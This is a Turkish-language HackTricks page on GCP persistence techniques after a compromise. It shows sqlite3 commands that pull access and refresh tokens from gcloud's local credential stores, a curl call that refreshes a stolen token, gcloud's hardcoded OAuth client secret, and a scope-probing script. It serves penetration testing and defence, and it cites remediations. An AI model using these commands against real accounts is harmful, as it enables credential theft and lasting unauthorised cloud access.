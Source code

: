 # GCP - Non-svc Persistance

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

Bir şekilde bazı GCP kimlik bilgilerini veya GCP ortamında çalışan bir makineyi ele geçirdiğinizde bu teknikler faydalı olacaktır.

## Token Hijacking

### Kimliği Doğrulanmış Kullanıcı Tokenları

Bir kullanıcının **mevcut tokenını** almak için şunu çalıştırabilirsiniz:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Bu sayfada **bu token'ı doğrudan gcloud kullanarak nasıl kullanacağınızı** kontrol edin:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Yeni bir erişim token'ı **oluşturmak için** detayları almak için çalıştırın:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Ayrıca **`$HOME/.config/gcloud/application_default_credentials.json`** ve **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** dosyalarında yenileme token'ları bulmak da mümkündür.

**Yenileme token'ı**, client ID ve client secret ile yeni bir yenilenmiş erişim token'ı almak için şunu çalıştırın:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Yenileme jetonlarının geçerliliği **Admin** > **Security** > **Google Cloud session control** altında yönetilebilir ve varsayılan olarak 16 saat olarak ayarlanmıştır, ancak hiç sona ermeyecek şekilde de ayarlanabilir:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

`gcloud auth login` gibi bir şey kullanıldığında kimlik doğrulama akışı tarayıcıda bir istem açacak ve tüm kapsamları kabul ettikten sonra tarayıcı, araç tarafından açılan http portuna bu tür bir istek gönderecektir:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Sonrasında, gcloud, **son yenileme belirteci verilerini** almak için bazı hardcoded `client_id` (`32555940559.apps.googleusercontent.com`) ve **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) ile durumu ve kodu kullanacaktır.

{% hint style="danger" %}
localhost ile iletişimin HTTP üzerinden olduğunu unutmayın, bu nedenle bir yenileme belirtecini almak için verileri yakalamak mümkündür, ancak bu veri sadece 1 kez geçerlidir, bu yüzden bu işe yaramaz, yenileme belirtecini dosyadan okumak daha kolaydır.
{% endhint %}

### OAuth Kapsamları

Tüm Google kapsamlarını [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) adresinde bulabilir veya şu komutu çalıştırarak elde edebilirsiniz:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

**`gcloud`**'un kimlik doğrulamak için kullandığı uygulamanın hangi kapsamları destekleyebileceğini bu betik ile görmek mümkündür:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Çalıştırdıktan sonra bu uygulamanın şu kapsamları desteklediği kontrol edildi:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
bu uygulamanın **`drive`** kapsamını desteklemesi ilginç, bu da bir saldırganın kullanıcıyı bu kapsamla bir token oluşturmaya zorlaması durumunda kullanıcının GCP'den Workspace'e yükselmesine izin verebilir.

**Bunu nasıl** [**kötüye kullanabileceğinizi burada kontrol edin**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Service Accounts

Kimlik doğrulaması yapılmış kullanıcılarla olduğu gibi, bir service account'un **özel anahtar dosyasını ele geçirmeyi başarırsanız**, **genellikle istediğiniz sürece erişim sağlayabilirsiniz**.\
Ancak, bir service account'un **OAuth token'ını çalarsanız** bu daha da ilginç olabilir, çünkü, varsayılan olarak bu token'lar sadece bir saat için geçerli olsa bile, **kurban özel api anahtarını silse bile, OAuth token süresi dolana kadar geçerli olacaktır**.

### Metadata

Açıkça, GCP ortamında çalışan bir makinenin içindeyken, **metadata endpoint'ine bağlanarak o makineye bağlı service account'a erişebilirsiniz** (bu endpoint'te erişebileceğiniz OAuth token'ların genellikle kapsamlarla sınırlı olduğunu unutmayın).

### Remediations

Bu teknikler için bazı düzeltmeler [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) adresinde açıklanmıştır.

## References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin**.
* **HackTricks'e ve** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github depolarına PR göndererek hacking ipuçlarını paylaşın**.

</details>
{% endhint %}
